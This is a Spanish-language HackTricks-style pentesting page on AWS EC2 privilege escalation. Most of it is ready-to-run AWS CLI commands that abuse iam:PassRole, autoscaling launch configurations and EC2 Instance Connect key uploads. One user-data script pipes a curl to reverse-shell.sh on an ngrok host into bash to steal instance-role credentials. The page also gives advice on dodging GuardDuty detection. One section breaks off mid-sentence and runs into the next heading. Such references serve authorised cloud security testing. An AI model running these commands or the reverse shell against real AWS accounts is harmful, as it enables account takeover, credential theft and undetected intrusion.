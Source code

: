 # AWS - EC2 Privesc

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver a tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF** ¡Consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección de exclusivos [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PR a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## EC2

Para obtener más **información sobre EC2** consulta:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `iam:PassRole`, `ec2:RunInstances`

Un atacante con los permisos `iam:PassRole` y `ec2:RunInstances` puede **crear una nueva instancia de EC2** a la que tendrá acceso al sistema operativo y **pasarle un perfil de instancia de EC2 existente**. Luego puede iniciar sesión en la instancia y **solicitar las claves de AWS asociadas a ese perfil de instancia de EC2**, lo que le da acceso a todos los permisos que tiene el perfil de instancia/servicio asociado.

* **Acceso a través de SSH**

Puede ejecutar una nueva instancia usando una **clave ssh creada** (`--key-name`) y luego conectarse a ella a través de ssh (si desea crear una nueva, es posible que necesite el permiso `ec2:CreateKeyPair`).

```bash
aws ec2 run-instances --image-id ami-a4dc46db --instance-type t2.micro \
    --iam-instance-profile Name=iam-full-access-ip --key-name my_ssh_key \
    --security-group-ids sg-123456
```

* **Acceso a través de rev shell en user data**

Puede ejecutar una nueva instancia usando una **user data** (`--user-data`) que le enviará una **rev shell**. No es necesario especificar el grupo de seguridad de esta manera.

```bash
echo '#!/bin/bash
curl https://reverse-shell.sh/4.tcp.ngrok.io:17031 | bash' > /tmp/rev.sh

aws ec2 run-instances --image-id ami-0c1bc246476a5572b --instance-type t2.micro \
   --iam-instance-profile Name=EC2-CloudWatch-Agent-Role \
   --count 1 \
   --user-data "file:///tmp/rev.sh"
```

Una nota importante sobre este ataque es que un **indicador obvio de compromiso** es cuando se usan **credenciales de perfil de instancia de EC2 fuera de la instancia específica**. Incluso AWS GuardDuty se activa en esto (https://docs.aws.amazon.com/guardduty/latest/ug/guardduty\_finding-types.html#unauthorized11), por lo que no es una buena idea extraer estas credenciales y ejecutarlas localmente, sino **acceder a la API de AWS desde dentro de esa instancia de EC2**.

**Impacto potencial:** Privesc directo a cualquier rol de EC2 adjunto a perfiles de instancia existentes.

#### Privesc a ECS

Con este conjunto de permisos, también podría **crear una instancia de EC2 y registrarla dentro de un clúster ECS**. De esta manera, los **servicios ECS** se **ejecutarán** dentro de la **instancia EC2** a la que tiene acceso y luego puede penetrar en esos servicios (contenedores docker) y **robar los roles ECS adjuntos**.

```bash
aws ec2 run-instances \
    --image-id ami-07fde2ae86109a2af \
    --instance-type t2.micro \
    --iam-instance-profile <ECS_role> \
    --count 1 --key-name pwned \
    --user-data "file:///tmp/asd.sh" 

# Asegúrese de usar una AMI optimizada para ECS ya que ya tiene todo instalado para ECS (amzn2-ami-ecs-hvm-2.0.20210520-x86_64-ebs)
# El perfil de instancia de EC2 necesita acceso básico a ECS
# El contenido de la user data es:
#!/bin/bash
echo ECS_CLUSTER=<cluster-name> >> /etc/ecs/ecs.config;echo ECS_BACKEND_HOST= >> /etc/ecs/ecs.config;
```

Para aprender cómo **forzar a los servicios ECS a ejecutarse** en esta nueva instancia de EC2, consulte:

{% content-ref url="aws-ecs-privesc.md" %}
[aws-ecs-privesc.md](aws-ecs-privesc.md)
{% endcontent-ref %}

Si **no puede crear una nueva instancia** pero tiene el permiso `ecs:RegisterContainerInstance`, es posible que pueda registrar la instancia dentro del clúster y realizar el ataque comentado.

**Impacto potencial:** Privesc directo a roles ECS adjuntos a tareas.

### **`iam:PassRole`,** **`iam:AddRoleToInstanceProfile`**

Similar al escenario anterior, un atacante con estos permisos podría **cambiar el rol IAM de una instancia comprometida** para que pueda robar nuevas credenciales.\
Como un perfil de instancia solo puede
### `autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`

Un atacante con los permisos **`autoscaling:CreateLaunchConfiguration`,`autoscaling:CreateAutoScalingGroup`,`iam:PassRole`** puede **crear una configuración de lanzamiento** con un **Rol IAM** y un **rev shell** dentro de los **datos de usuario**, luego **crear un grupo de escalado automático** a partir de esa configuración y esperar a que el rev shell **robe el Rol IAM**.

```bash
aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-launch-configuration \
   --launch-configuration-name bad_config \
   --image-id ami-0c1bc246476a5572b \
   --instance-type t3.micro \
   --iam-instance-profile EC2-CloudWatch-Agent-Role \
   --user-data "$REV"

aws --profile "$NON_PRIV_PROFILE_USER" autoscaling create-auto-scaling-group \
   --auto-scaling-group-name bad_auto \
   --min-size 1 --max-size 1 \
   --launch-configuration-name bad_config \
   --desired-capacity 1 \
   --vpc-zone-identifier "subnet-e282f9b8"
```

**Impacto potencial:** Escalada de privilegios directa a un rol EC2 diferente.

### `!autoscaling`

El conjunto de permisos **`ec2:CreateLaunchTemplate`** y **`autoscaling:CreateAutoScalingGroup`** **no son suficientes para escalar** privilegios a un rol IAM porque para adjuntar el rol especificado en la Configuración de Lanzamiento o en la Plantilla de Lanzamiento **necesita los permisos `iam:PassRole` y `ec2:RunInstances`** (que es una escalada de privilegios conocida).

### `ec2-instance-connect:SendSSHPublicKey`

Un atacante con el permiso **`ec2-instance-connect:SendSSHPublicKey`** puede agregar una clave ssh a un usuario y usarla para acceder a ella (si tiene acceso ssh a la instancia) o para escalar privilegios.

```bash
aws ec2-instance-connect send-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --instance-os-user "ec2-user" \
   --ssh-public-key "file://$PUBK_PATH"
```

**Impacto potencial:** Escalada de privilegios directa a los roles IAM de EC2 adjuntos a las instancias en ejecución.

### `ec2-instance-connect:SendSerialConsoleSSHPublicKey`

Un atacante con el permiso **`ec2-instance-connect:SendSerialConsoleSSHPublicKey`** puede **agregar una clave ssh a una conexión serial**. Si la conexión serial no está habilitada, el atacante necesita el permiso **`ec2:EnableSerialConsoleAccess` para habilitarla**.

Para conectarse al puerto serie también **necesita conocer el nombre de usuario y la contraseña de un usuario** dentro de la máquina.

```bash
aws ec2 enable-serial-console-access

aws ec2-instance-connect send-serial-console-ssh-public-key \
   --instance-id "$INSTANCE_ID" \
   --serial-port 0 \
   --region "eu-west-1" \
   --ssh-public-key "file://$PUBK_PATH"

ssh -i /tmp/priv $INSTANCE_ID.port0@serial-console.ec2-instance-connect.eu-west-1.aws
```

De esta manera no es muy útil para la escalada de privilegios ya que se necesita conocer un nombre de usuario y una contraseña para explotarlo.

**Impacto potencial:** (Altamente improbable) Escalada de privilegios directa a los roles IAM de EC2 adjuntos a las instancias en ejecución.